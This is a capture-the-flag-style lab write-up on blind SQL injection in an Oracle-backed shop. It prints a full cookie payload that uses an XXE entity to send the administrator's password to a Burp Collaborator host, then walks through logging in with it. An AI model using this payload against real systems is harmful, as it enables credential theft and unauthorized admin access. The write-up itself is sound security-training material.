

# Blind SQL Injection with Out-of-Band Data Exfiltration

## Overview

This report documents the successful exploitation of a **Blind SQL Injection** vulnerability that was combined with **Out‑of‑Band (OOB) data exfiltration** using XML External Entity (XXE) techniques. The goal was to extract the administrator’s password from an Oracle‑based web application without receiving any direct database output in the HTTP response. By leveraging Burp Suite Professional’s Collaborator server, the password was leaked through DNS and HTTP interactions asynchronously.

---

## Vulnerability Discovery

1. The front page of the target shop was visited.
2. Using **Burp Suite Professional**, the HTTP request containing the `TrackingId` cookie was intercepted.
3. The `TrackingId` was suspected to be vulnerable to SQL injection. A simple test confirmed that the application processes database queries based on this cookie, but no error messages or conditional content changes were observed → it was a **blind** SQL injection.
4. Because the database is blind, a classic **UNION SELECT** attack cannot retrieve data via the response. Therefore, an **out‑of‑band channel** was necessary.

---

## Crafting the Exploit Payload

The final payload injected into the `TrackingId` cookie is:

```sql
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```

> **Note:** The subdomain `BURP-COLLABORATOR-SUBDOMAIN` is replaced with a real Collaborator payload generated by Burp Suite.

### How the Payload Works – Step by Step

1. **SQL Injection Breakout**  
   The `x'` closes the original SQL string inside the `TrackingId` cookie.

2. **UNION SELECT**  
   `UNION+SELECT` allows adding an extra query to the original statement.

3. **Oracle XML Functions**  
   `EXTRACTVALUE(xmltype(...), '/l')` parses an XML document and returns the value of the XPath expression `/l`.  
   The `xmltype()` constructor is used to create an XML object from a string.

4. **Inline XXE (XML External Entity)**  
   Inside the XML string, a **DOCTYPE** is declared that defines an external entity `%remote`:

   ```xml
   <!DOCTYPE root [
     <!ENTITY % remote SYSTEM "http://...">
     %remote;
   ]>
   ```

   - The `SYSTEM` identifier points to a URL that includes:
     - `http://`
     - The result of the subquery `(SELECT password FROM users WHERE username='administrator')`
     - A dot (`.`)
     - The Burp Collaborator subdomain (e.g., `abcdef1234.burpcollaborator.net`)

5. **Dynamic Data Injection**  
   The SQL subquery is concatenated directly into the URL using Oracle’s `||` operator.  
   For example, if the password is `h3ll0W0rld`, the URL becomes:

   ```
   http://h3ll0W0rld.abcdef1234.burpcollaborator.net
   ```

6. **Out‑of‑Band Exfiltration**  
   When the database server processes the XML, it attempts to resolve the external entity by making an HTTP/DNS request to that URL.  
   Since the password is part of the domain name, the Collaborator server receives a lookup containing the password.

7. **Asynchronous Execution**  
   The server does not wait for the XML resolution to finish; the HTTP response is sent to the client immediately, while the outbound request is processed in the background. This is why multiple polls may be needed.

---

## Using Burp Collaborator

1. After inserting the payload into the `TrackingId` cookie, I right‑clicked and selected **“Insert Collaborator payload”** – this automatically replaced the placeholder with a unique subdomain.
2. The request was sent to the server.
3. I switched to the **Collaborator tab** and clicked **“Poll now”**.
4. After a few seconds, DNS and HTTP interactions appeared in the table.

### Interaction Details

- **DNS interactions** show the full domain name that was looked up, e.g., `h3ll0W0rld.abcdef1234.burpcollaborator.net` – the password is clearly visible before the first dot.
- **HTTP interactions** display the host header containing the same password.

The extracted password was noted and used for authentication.

---

## Securing Administrator Access

1. In the browser, I clicked **“My account”** to open the login page.
2. Username: `administrator`
3. Password: *[the extracted value]*
4. Login was successful, granting full administrative privileges.

---

## Visual Proof

Below is a placeholder screenshot showing the extracted password within the Burp Collaborator interaction and the successful login:




**Disclaimer:** This activity was performed in a controlled, authorized lab environment for educational and ethical security testing purposes only.
